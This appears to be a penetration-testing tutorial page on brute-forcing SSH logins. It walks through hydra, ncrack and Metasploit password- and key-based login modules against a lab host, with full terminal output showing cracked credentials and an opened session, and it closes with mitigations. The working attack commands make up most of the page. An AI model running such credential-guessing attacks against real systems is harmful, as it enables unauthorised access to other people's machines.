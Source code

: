 ```yaml
---
title: SSH Pentesting -> Bruteforce
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, SSH]
tags: []  
---
```


# Bruteforce: *mitre -> T1110*
***Bruteforce*** Is a technigue that uses trial-and-error to guess login credentials.

# Tools

These are some of the tools that are used to bruteforce ssh credentials.

- hydra
- ncrack
- metasploit

## hydra

[Hydra](https://www.kali.org/tools/hydra/) is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

Syntax
> `hydra -L [userfile] -P [password_file] ssh://[target_ip]`

**bruteforcing ssh protocol with hydra**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ hydra -L user.txt -P pass.txt ssh://192.168.43.234
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-05 20:20:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 96 login tries (l:8/p:12), ~6 tries per task
[DATA] attacking ssh://192.168.43.234:22/
[22][ssh] host: 192.168.43.234   login: 'user1'   password: 'user1'
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-05 20:20:59	
```
## Ncrack

[Ncrack](https://www.kali.org/tools/ncrack/) Is a high-speed network authentication cracking tool. It was built to help companies secure their networks by proactively testing all their hosts and networking devices for poor passwords.

syntax 
> `ncrack -U [userfile] -P [password_file] ssh://[target]`

**bruteforcing ssh protocol with ncrack**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ ncrack -U user.txt -P pass.txt ssh://192.168.43.234

Starting Ncrack 0.7 ( http://ncrack.org ) at 2022-06-05 20:29 EDT

Discovered credentials for ssh on 192.168.43.234 22/tcp:
192.168.43.234 22/tcp ssh: 'user1' 'user1'

Ncrack done: 1 service scanned in 21.01 seconds.
```

## Metasploit

[Metasploit](https://www.kali.org/tools/metasploit-framework/) Is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.

**bruteforcing ssh protocol with metasploit**
```bash
msf6 auxiliary(scanner/ssh/ssh_login) > options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.43.234
rhost => 192.168.43.234
msf6 auxiliary(scanner/ssh/ssh_login) > set user_file /home/cyberkhalid/pentest/user.txt
user_file => /home/cyberkhalid/pentest/user.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /home/cyberkhalid/pentest/pass.txt
pass_file => /home/cyberkhalid/pentest/pass.txt
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] 192.168.43.234:22 - Starting bruteforce
[+] 192.168.43.234:22 - Success: 'user1:user1' 'uid=1000(user1) gid=1000(user1) groups=1000(user1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),134(sambashare) Linux user1-VirtualBox 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 2 opened (192.168.43.1:41713 -> 192.168.43.234:22) at 2022-06-05 20:40:02 -0400

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
	
```
## Using private keys

**bruteforcing ssh protocol with metasploit using ssh-private keys**
```bash
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > options                                                                                                                
                                                                                                                                                                      
Module options (auxiliary/scanner/ssh/ssh_login_pubkey):                                                                                                              
                                                                                                                                                                      
   Name              Current Setting               Required  Description                                                                                              
   ----              ---------------               --------  -----------                                                                                              
   BRUTEFORCE_SPEED  5                             yes       How fast to bruteforce, from 0 to 5                                                                      
   DB_ALL_USERS      false                         no        Add all users in the current database to the list                                                        
   KEY_PASS                                        no        Passphrase for SSH private key(s)                                                                        
   KEY_PATH                                        no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub" wi  
                                                             ll be skipped. Duplicate private keys will be ignored.                                                   
   PRIVATE_KEY       /home/cyberkhalid/pentest/id  no        The string value of the private key that will be used. If you are using MSFConsole, this value should b  
                                                             e set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.                 
   RHOSTS            192.168.43.234                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit             
   RPORT             22                            yes       The target port                                                                                          
   STOP_ON_SUCCESS   false                         yes       Stop guessing when a credential works for a host                                                         
   THREADS           1                             yes       The number of concurrent threads (max one per host)                                                      
   USERNAME          user1                         no        A specific username to authenticate as                                                                   
   USER_FILE                                       no        File containing usernames, one per line                                                                  
   VERBOSE           true                          yes       Whether to print output for all attempts                                                                 
                                                                                                                                                                                                                                                                                                 
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_path /home/cyberkhalid/pentest/id                                                                              
key_path => /home/cyberkhalid/pentest/id                                                                                                                              
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_pass Passsword@123                                                                                             
key_pass => Passsword@123                                                                                                                                                
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > exploit                                                                                                                
                                                                                                                                                                      
[*] 192.168.43.234:22 SSH - Testing Cleartext Keys                                                                                                                    
[*] 192.168.43.234:22 - Testing 1 key from /home/cyberkhalid/pentest/id                                                                                               
[+] 192.168.43.234:22 - Success: 'user1:-----BEGIN RSA PRIVATE KEY----- 
```
# Mitigations

- Enforce password policies.
- Set account lockout policies after a certain number of failed login attempts to prevent passwords from being guessed.
- Use multi-factor authentication.

# References

- [https://attack.mitre.org/techniques/T1110/](https://attack.mitre.org/techniques/T1110/)
- [https://www.kali.org/tools/hydra/](https://www.kali.org/tools/hydra/)
- [https://www.kali.org/tools/ncrack/](https://www.kali.org/tools/ncrack/)
- [https://www.kali.org/tools/metasploit-framework/](https://www.kali.org/tools/metasploit-framework/)
- [https://attack.mitre.org/mitigations/M1027/](https://attack.mitre.org/mitigations/M1027/)
- [https://attack.mitre.org/mitigations/M1032/](https://attack.mitre.org/mitigations/M1032/)
- [https://attack.mitre.org/mitigations/M1036/](https://attack.mitre.org/mitigations/M1036/)
